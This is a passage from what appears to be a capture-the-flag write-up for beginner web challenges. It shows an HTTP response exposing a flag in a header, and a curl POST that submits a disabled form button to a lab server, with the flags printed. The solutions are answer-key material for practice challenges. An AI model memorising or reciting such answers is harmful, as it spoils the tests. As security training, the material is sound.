 ```shell
flag: cyberpeace{cd449c1431f8a961637ddfeea9848df2}
Vary: Accept-Encoding
Content-Length: 411
Content-Type: text/html

<html>
<head>
    <meta charset="UTF-8">
    <title>Cookie</title>
    <link href="http://libs.baidu.com/bootstrap/3.0.3/css/bootstrap.min.css" rel="stylesheet" />
    <style>
        body{
            margin-left:auto;
            margin-right:auto;
            margin-TOP:200PX;
            width:20em;
        }
    </style>
</head>
<body>
<h3>See the http response</h3>
</body>
</html>

```

flag: `cyberpeace{cd449c1431f8a961637ddfeea9848df2}`

### disabled_button

```shell
$ curl -X POST -d "auth=flag" "http://61.147.171.105:57133/"
<html>
<head>
    <meta charset="UTF-8">
    <title>一个不能按的按钮</title>
    <link href="http://libs.baidu.com/bootstrap/3.0.3/css/bootstrap.min.css" rel="stylesheet" />
    <style>
        body{
            margin-left:auto;
            margin-right:auto;
            margin-TOP:200PX;
            width:20em;
        }
    </style>
</head>
<body>
<h3>一个不能按的按钮</h3>

<form action="" method="post" >
<input disabled class="btn btn-default" style="height:50px;width:200px;" type="submit" value="flag" name="auth" />
</form>
<h3>cyberpeace{bb43ef404e6e050d9a7b013262fa82df}</h3>
</body>
</html>

```
